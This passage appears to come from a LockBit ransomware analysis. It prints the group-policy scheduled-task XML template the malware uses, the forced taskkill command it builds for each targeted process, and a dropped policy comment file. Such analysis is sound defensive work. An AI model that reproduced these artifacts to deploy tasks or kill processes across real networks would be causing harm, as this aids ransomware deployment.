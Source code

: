 ``` HTML
                  <RunLevel>HighestAvailable</RunLevel>
               </Principal>
            </Principals>
            <Settings>
               <IdleSettings>
                  <Duration>PT10M</Duration>
                  <WaitTimeout>PT1H</WaitTimeout>
                  <StopOnIdleEnd>false</StopOnIdleEnd>
                  <RestartOnIdle>false</RestartOnIdle>
               </IdleSettings>
               <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
               <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
               <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
               <AllowHardTerminate>true</AllowHardTerminate>
               <AllowStartOnDemand>true</AllowStartOnDemand>
               <Enabled>true</Enabled>
               <Hidden>false</Hidden>
               <ExecutionTimeLimit>P3D</ExecutionTimeLimit>
               <Priority>7</Priority>
            </Settings>
            <Triggers>
               <RegistrationTrigger>
                  <Enabled>true</Enabled>
                  %s
               </RegistrationTrigger>
            </Triggers>
            <Actions Context="Author">%s</Actions>
         </Task>
      </Properties>
   </TaskV2>
</ScheduledTasks>
```

**LockBit** formats this to execute a **taskkill.exe** for each of the process in the configuration's process list. This is done through crafting these tags and include them in the main **ScheduledTasks.xml** file where the **"Process_Name"** field is the name of the process to be terminated.

``` HTML
<Exec><Command>C:\Windows\System32\taskkill.exe</Command><Arguments>/IM "Process_Name" /F</Arguments></Exec>
```

Finally, **LockBit** drops the [Registry.pol file](https://github.com/cdong1012/IDAPython-Malware-Scripts/blob/master/Lockbit/lockbit_dropped_files/Registry.pol) and the **comment.cmtx** file below.

``` HTML
<?xml version="1.0" encoding="UTF-8"?>
<policyComments xmlns="http://www.microsoft.com/GroupPolicy/CommentDefinitions" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" revision="1.0" schemaVersion="1.0">
   <policyNamespaces>
      <using prefix="ns0" namespace="Microsoft.Policies.WindowsDefender" />
   </policyNamespaces>
   <comments>
      <admTemplate />
   </comments>
   <resources minRequiredRevision="1.0">
      <stringTable />
   </resources>
</policyComments>
```
